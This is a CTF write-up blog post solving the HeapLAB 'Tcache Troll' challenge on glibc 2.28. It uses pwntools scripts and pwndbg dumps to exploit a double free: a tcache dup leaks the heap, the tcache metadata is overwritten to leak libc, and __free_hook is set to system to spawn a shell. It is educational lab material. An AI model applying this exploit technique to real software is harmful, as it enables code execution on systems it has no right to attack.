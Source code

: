 ```yaml
---
layout: post
title:  "Tcache troll"
date:   2024-03-23 20:01:22 +0100
categories: jekyll update
---
```

Let's start with checking enabled protections:
{% highlight ruby %}
ady@heap-lab:~/heaplab2/challenge-tcache_troll$ checksec tcache_troll
[*] '/home/ady/heaplab2/challenge-tcache_troll/tcache_troll'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'../.glibc/glibc_2.28'
{% endhighlight %}

Important things to note:
1. ALSR and NX enabled
2. glibc version 2.28 means tcache is enabled, but without double free protection

After starting challenge binary we are greeted by this menu:
{% highlight console %}
ady@heap-lab:~/heaplab2/challenge-tcache_troll$ ./tcache_troll 

===============
|   HeapLAB   |  CHALLENGE: Tcache Troll
===============

1) malloc 0/8
2) free 0/5
3) read
4) quit
{% endhighlight %}

Options are pretty self explanatory, malloc allows us to allocate up to 1024 bytes of memory and copy provided data into it, free deallocate by idx, read reads 8 bytes of memory by idx.

After playing around with binary I found the bug - program doesn't check for double free allowing us to free same chunk multiple times. This allows us to use attack such as tcache dup to get arbitrary code execution, but because target was compiled with ASLR we need to leak libc address.
My first idea was to somehow dup chunk linked into unsorted bin and read fwd pointer to main arena. That wasn't possible due to tcache and limited amount of calls to free. With only 5 calls we are unable to use all 7 tcache slots to free chunk into.

After some pondering I remembered that tcache metadata, including number of allocated block for given size is kept on heap (in first 0x250 byte sized chunk).
What if we overwrite size field so chosen slot will look like filled. Next deallocation should avoid tcache and be linked into other bin.

So plan of attack looks like this:
1. Leak heap address
2. Overwrite tcache metadata to convince glibc that specific tcache slot is full, then free duplicated chunk into unsorted_bin, leaking libc address
3. Use tcache dup to overwrite __free_hook with system then free chunk with `/bin/sh\0` to get shell

Let's start with step 1:
First let's allocate and free two 0x20 sized chunk, then look into heap with gdb:
{% highlight bash %}
pwndbg> vis

0x563bcc836000	0x0000000000000000	0x0000000000000251	........Q.......
0x563bcc836010	0x0000000000000002	0x0000000000000000	................
0x563bcc836020	0x0000000000000000	0x0000000000000000	................
0x563bcc836030	0x0000000000000000	0x0000000000000000	................
0x563bcc836040	0x0000000000000000	0x0000000000000000	................
0x563bcc836050	0x0000563bcc836280	0x0000000000000000	.b..;V..........
0x563bcc836060	0x0000000000000000	0x0000000000000000	................
0x563bcc836070	0x0000000000000000	0x0000000000000000	................
0x563bcc836080	0x0000000000000000	0x0000000000000000	................
0x563bcc836090	0x0000000000000000	0x0000000000000000	................
0x563bcc8360a0	0x0000000000000000	0x0000000000000000	................
0x563bcc8360b0	0x0000000000000000	0x0000000000000000	................
0x563bcc8360c0	0x0000000000000000	0x0000000000000000	................
0x563bcc8360d0	0x0000000000000000	0x0000000000000000	................
0x563bcc8360e0	0x0000000000000000	0x0000000000000000	................
0x563bcc8360f0	0x0000000000000000	0x0000000000000000	................
0x563bcc836100	0x0000000000000000	0x0000000000000000	................
0x563bcc836110	0x0000000000000000	0x0000000000000000	................
0x563bcc836120	0x0000000000000000	0x0000000000000000	................
0x563bcc836130	0x0000000000000000	0x0000000000000000	................
0x563bcc836140	0x0000000000000000	0x0000000000000000	................
0x563bcc836150	0x0000000000000000	0x0000000000000000	................
0x563bcc836160	0x0000000000000000	0x0000000000000000	................
0x563bcc836170	0x0000000000000000	0x0000000000000000	................
0x563bcc836180	0x0000000000000000	0x0000000000000000	................
0x563bcc836190	0x0000000000000000	0x0000000000000000	................
0x563bcc8361a0	0x0000000000000000	0x0000000000000000	................
0x563bcc8361b0	0x0000000000000000	0x0000000000000000	................
0x563bcc8361c0	0x0000000000000000	0x0000000000000000	................
0x563bcc8361d0	0x0000000000000000	0x0000000000000000	................
0x563bcc8361e0	0x0000000000000000	0x0000000000000000	................
0x563bcc8361f0	0x0000000000000000	0x0000000000000000	................
0x563bcc836200	0x0000000000000000	0x0000000000000000	................
0x563bcc836210	0x0000000000000000	0x0000000000000000	................
0x563bcc836220	0x0000000000000000	0x0000000000000000	................
0x563bcc836230	0x0000000000000000	0x0000000000000000	................
0x563bcc836240	0x0000000000000000	0x0000000000000000	................
0x563bcc836250	0x0000000000000000	0x0000000000000021	........!.......
0x563bcc836260	0x0000000000000000	0x0000000000000000	................	 <-- tcachebins[0x20][1/2]
0x563bcc836270	0x0000000000000000	0x0000000000000021	........!.......
0x563bcc836280	0x0000563bcc836260	0x0000000000000000	`b..;V..........	 <-- tcachebins[0x20][0/2]
0x563bcc836290	0x0000000000000000	0x0000000000020d71	........q.......	 <-- Top chunk
{% endhighlight %}
We see chunk containing tcache at top of heap at address 0x563bcc836000. Next are bins sizes, one byte per bin.
At 0x563bcc836000 lies 0x20 sized bin - it contains ptr to first free chunk in that bin, which in turn points to next free chunk,
forming linked list of free chunks.

If we free same chunk twice and then allocate new one with same size it will be allocated from tcache, but still considered part of tcache fwd list.
After freeing it again, libc will link it into list, writing fwd ptr to itself into it's user data.
Because it's duplicated and we freed only one end, we can use other to read it, leaking heap address :)

Following pwntools scripts shows that:
{% highlight python %}
dup = malloc(0x18, b"A"*8)
free(dup)
free(dup)

leak = malloc(0x18, b"B"*8)
free(dup)

heap = u64(read(leak)) - 0x260 # 0x10 bytes of chunk header + 0x250 byets of tcache chunk
log.info(f"heap addr - 0x{heap:x}")
{% endhighlight %}

That gives us heap addr:
{% highlight console %}
...
[*] heap addr - 0x556eba5d0000
...
{% endhighlight %}

We can verify that with gdb:
{% highlight console %}
pwndbg> vmmap 0x556eba5d0000
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
             Start                End Perm     Size Offset File
    0x556eb9202000     0x556eb9203000 rw-p     1000   2000 /home/ady/heaplab2/challenge-tcache_troll/tcache_troll
►   0x556eba5d0000     0x556eba5f1000 rw-p    21000      0 [heap] +0x0
    0x7fb97920b000     0x7fb9793b7000 r-xp   1ac000      0 /home/ady/heaplab2/.glibc/glibc_2.28/libc-2.28.so
{% endhighlight %}

Step 2:
We can keep using our duplicated chunk to perform tcache dup attack - we allocate new chunk and set it data to target we want to overwrite.
Next allocation will unlink our chunk from tcache list, treating our data as fwd ptr and writing it to head of bin.
Succeeding allocation will be served from that bin, giving us chunk starting at target data - we can use it to set size field of 0x90 bin to 7 (which means that bin is full)
After that we just need to free chunk and it will avoid tcache and be linked into unsorted bin - it's first qword will contain address of bin in main_arena. We can use it to calculate libc address.

Also we had to add guard chunk before dup chunk, to avoid consolidation with top chunk and change chunk sizes to 0x90, so it will be freed into unsorted bin instead of fastbin,

{% highlight python %}
dup = malloc(0x88, b"A"*8)
guard = malloc(0x18, b"G"*8)
free(dup)
free(dup)

leak = malloc(0x88, b"C"*8)
free(dup)
heap = u64(read(leak)) - 0x260
log.info(f"heap @ 0x{heap:x}")

#tcache dup
malloc(0x88, pack(heap+0x10)) #target addr
malloc(0x88, "YYYY")
malloc(0x88, p8(0)*7 + p8(7)) #served from target, overwriting size field

free(dup)

unsortedbin = u64(read(leak))
unsorted_offset = libc.sym.main_arena + 0x58 + 0x8
libc.address = unsortedbin - unsorted_offset
log.info(f"libc @ 0x{libc.address:x}")
{% endhighlight  %}


Step 3:
At this point it should be easy to wrap things up - just use tcache dup again to overwrite libc._free_hook.
Unfortunately at this point we have one call to free and two to malloc - not enough for this attack.

Instead we could use our write to tcache metadata. We can write fake ptr into bin, and allocate from it, getting chunk overlapping addr we want to write to.
The only problem is that we don't have libc addres at that time, but we can setup another overwrite into other tcache bin (let's say 0x20) and then allocate from it after getting libc address.
Rest is fairly simple - we can use that write addr of libc.system into libc.__free_hook. Next call free on chunk with "/bin/sh\0" data gets us shell.

Following pwntools scripts wraps everything up:
{% highlight python %}
dup = malloc(0x88, b"A"*8)
guard = malloc(0x18, "/bin/sh\0")
free(dup)
free(dup)

leak = malloc(0x88, "C")
free(dup)
heap = u64(read(leak)) - 0x260
log.info(f"heap @ 0x{heap:02x}")

malloc(0x88, pack(heap+0x10))
malloc(0x88, "YYYY")
malloc(0x88, p8(0)*7 + p8(7) + p8(0)*56 + pack(0) * 7 + pack(heap+0x50))

free(dup)

unsortedbin = u64(read(leak))
unsorted_offset = libc.sym.main_arena + 0x58 + 0x8
libc.address = unsortedbin - unsorted_offset
log.info(f"libc @ 0x{libc.address:02x}")

malloc(0x88, pack(libc.sym.__free_hook))
malloc(0x18, pack(libc.sym.system))
free(guard)
{% endhighlight  %}
